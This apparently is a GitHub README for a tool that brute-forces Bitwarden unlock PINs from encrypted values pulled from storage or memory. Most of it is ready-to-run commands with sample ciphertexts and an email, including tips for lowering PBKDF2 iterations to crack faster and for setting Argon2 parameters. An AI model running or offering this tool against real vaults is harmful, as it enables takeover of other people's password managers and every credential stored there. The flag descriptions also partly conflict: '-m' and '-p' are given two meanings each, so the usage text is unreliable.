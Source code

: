 # Bitwarden PIN Bruteforce

**Brute force any Bitwarden PIN from storage or in-memory**

> **Warning**:  
> This README is very incomplete still, I promise I'll make a proper one soon

Default settings:

```bash
bitwarden-pin -e "2.P6TpPPpMf5zkHUfTplnocw==|KZ7/pR8ft+LwcjfXs2ym9hmxE7DLIeA9Kl+IPwTVCwLmbpkFtYKPWvK53DEDDrVUeYvz/rPcl3MEH3wXl200HCsV5ZbGLGVU4bha5Aw20fk=|+Y46Za3Oo63XRbvqLFz5cVuvbqMvBqopD16+8HV83mk=" -m "tenire3448@fashlend.com"
```

Set custom iterations to old version, 6x faster to crack:

```bash
bitwarden-pin -e "..." -m "tenire3448@fashlend.com" pbkdf2 -i 100000
```

Set algorithm to newer argon2:

```bash
bitwarden-pin -e "2.FA4aPsq/5jKajc8tGqYKaQ==|CO/t9f1EQ4O5LL6O1anBAd1/4Hb+l4I32UMlW+3O7CoxTRXlEuLK5xvDCFmeRCYmylt206B22roFXycaRG3Z9fnN1aVVbBJ59qfCDEGusHw=|vmWmAb9kfqPPljRNhDMe+fDlwwat8XN5BZSsMAH8p8w=" -m "tenire3448@fashlend.com" argon2
```

Set custom kdfConfig values for argon2:

```bash
bitwarden-pin -e "2.FA4aPsq/5jKajc8tGqYKaQ==|CO/t9f1EQ4O5LL6O1anBAd1/4Hb+l4I32UMlW+3O7CoxTRXlEuLK5xvDCFmeRCYmylt206B22roFXycaRG3Z9fnN1aVVbBJ59qfCDEGusHw=|vmWmAb9kfqPPljRNhDMe+fDlwwat8XN5BZSsMAH8p8w=" -m "tenire3448@fashlend.com" argon2 -i 3 -m 64 -p 4
```

Tip: use `-p` to set number of digits in PIN. Commonly this is 4, but it can be anything the user inputs.
